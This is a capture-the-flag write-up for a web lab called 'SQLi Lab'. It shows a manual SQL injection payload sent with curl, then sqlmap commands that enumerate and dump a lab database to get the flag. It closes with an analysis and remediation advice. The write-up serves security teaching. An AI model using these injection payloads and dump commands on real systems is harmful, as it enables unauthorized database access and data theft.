




# SQLi Lab

> **Red Team Academy / Pentest Garage — Web Exploitation**

## 📌 Challenge Information

| Field         | Details                                                     |
| ------------- | ----------------------------------------------------------- |
| **Challenge** | SQLi Lab                                                    |
| **Category**  | Web Exploitation                                            |
| **Technique** | SQL Injection                                               |
| **Target**    | `ctf-akshay-sqli-lab-7b8bf158.challenges.pentestgarage.com` |
| **Port**      | `80`                                                        |

---

## 🎯 Objective

The objective of this challenge was to identify and exploit a SQL injection vulnerability in the application's `userid` parameter and retrieve the flag from the backend database.

The exploitation was performed in two stages:

1. Manually testing the parameter for SQL injection.
2. Using SQLmap to enumerate the database and retrieve the flag.

---



## 🔎 Initial Testing

The application accepted a `userid` parameter through a POST request.

I first tested whether the parameter was vulnerable to SQL injection by supplying a Boolean-based SQL injection payload:

```bash
curl -X POST \
  http://ctf-akshay-sqli-lab-7b8bf158.challenges.pentestgarage.com/index.php \
  -d "userid=1' OR '1'='1&search=Search"
```



The response displayed:

```text
Username: admin
```

This confirmed that the supplied input was being interpreted as part of the SQL query and that the application was vulnerable to SQL injection.

---

## 💉 SQLmap — Database Enumeration

After confirming the vulnerability manually, SQLmap was used to automate the SQL injection process.

### Step 1 — Find Databases

The following command was used to enumerate the available databases:

```bash
sqlmap -u "http://ctf-akshay-sqli-lab-7b8bf158.challenges.pentestgarage.com/index.php" \
  --data "userid=1&search=Search" \
  --batch \
  --dbs
```


The vulnerable application's database was identified as:

```text
vulnapp
```

---

## 🗄️ Step 2 — Enumerate Tables

After identifying the `vulnapp` database, SQLmap was used to enumerate its tables:

```bash
sqlmap -u "http://ctf-akshay-sqli-lab-7b8bf158.challenges.pentestgarage.com/index.php" \
  --data "userid=1&search=Search" \
  --batch \
  -D vulnapp \
  --tables
```



The enumeration revealed a table named:

```text
flag
```

This indicated that the flag was likely stored inside this table.

---

## 🚩 Step 3 — Dump the Flag

SQLmap was then used to dump the contents of the `flag` table:

```bash
sqlmap -u "http://ctf-akshay-sqli-lab-7b8bf158.challenges.pentestgarage.com/index.php" \
  --data "userid=1&search=Search" \
  --batch \
  -D vulnapp \
  -T flag \
  --dump
```



The flag was successfully retrieved:

```text
ctf{SQl1_FTW}
```

---

## ⚡ Alternative — Dump Everything

Once SQL injection had been confirmed, SQLmap could also be instructed to enumerate and dump all available database information using:

```bash
sqlmap -u "http://ctf-akshay-sqli-lab-7b8bf158.challenges.pentestgarage.com/index.php" \
  --data "userid=1&search=Search" \
  --batch \
  --dump-all
```

The step-by-step approach above was preferred because it demonstrates the individual stages of database enumeration and exploitation.

---

## 🚩 Flag

```text
ctf{SQl1_FTW}
```

---

## 🧠 Vulnerability Analysis

The application was vulnerable to **SQL Injection** because user-controlled input supplied through the `userid` parameter was being processed as part of a database query without sufficient protection.

The manual payload:

```text
1' OR '1'='1
```

altered the intended SQL condition and caused the application to return the administrator account.

Once the vulnerability was confirmed, SQLmap was able to automate the exploitation and enumerate the backend database.

The resulting attack path was:

```text
User-controlled userid
        ↓
SQL Injection
        ↓
Database enumeration
        ↓
Database: vulnapp
        ↓
Table: flag
        ↓
Flag extraction
```

---

## 💥 Impact

SQL injection can allow an attacker to interact with the application's backend database beyond the intended functionality.

Depending on the application's database permissions and query construction, successful SQL injection may allow an attacker to:

* Read database contents
* Access sensitive information
* Modify database records
* Enumerate database structure
* Potentially perform further attacks against the application

In this challenge, the vulnerability allowed the database containing the flag to be enumerated and dumped.

---

## 🛡️ Remediation

Recommended protections include:

* Use parameterized queries / prepared statements.
* Never concatenate user input directly into SQL queries.
* Validate input on the server side.
* Apply least-privilege permissions to database accounts.
* Avoid exposing detailed database errors to users.
* Implement appropriate monitoring and logging for suspicious database requests.
* Conduct regular security testing for injection vulnerabilities.

---

## 🛠️ Tools Used

* Kali Linux
* curl
* SQLmap
* Linux command-line utilities

---

## 📚 Key Takeaways

This challenge demonstrated a basic SQL injection workflow:

1. Identify a potentially injectable parameter.
2. Manually confirm SQL injection.
3. Enumerate available databases.
4. Enumerate tables within the target database.
5. Identify the table containing the desired information.
6. Dump the relevant table.

The key lesson is:

> **Always validate and parameterize user-controlled database input instead of directly incorporating it into SQL queries.**
